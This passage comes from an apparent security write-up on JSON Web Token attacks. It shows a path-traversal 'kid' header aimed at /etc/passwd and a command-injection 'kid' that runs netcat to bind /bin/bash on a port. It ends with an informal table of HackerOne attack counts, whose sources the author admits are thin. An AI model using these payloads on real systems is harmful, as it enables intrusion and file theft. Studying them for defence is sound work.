 ##### Local File Inclusion

```json
{

"type": "JWT",

"alg": "HS256",

"kid": "/../../../../etc/passwd"

}
```
<br />

##### Command Injection

```json
{
"type": "JWT",
"alg": "HS256",
"kid": "anykey | nc -nlvkp 8080 -e /bin/bash"
}
```
<br />
## Vulnerability Statistics
These were the most common JWT attacks, and there are more misconfigurations you can find in the resource section. After reading the write-ups and disclosure of vulnerabilities on HackerOne, I found these statistics, though there is a lack of sources.
<br />
<br />

| Attack                 	| Count |
|---------------------------|-------|
| Validate JWT              | 12    |
| Exposed JWT               | 9     |
| Hardcoded                 | 5     |
| Expire Date               | 3     |
| Confusion Attack          | 1     |
| None Algorithm Attack     | 1     |
| Information Disclosure Via JWT   | 1     |
| SSRF                      | 1     |
| **-**                   | 33    |

<br />

The weakness in validation is due to applications not adequately checking the provided token. Most attackers exploit this by altering the role or ID, allowing them to bypass access control or carry out IDOR attacks.
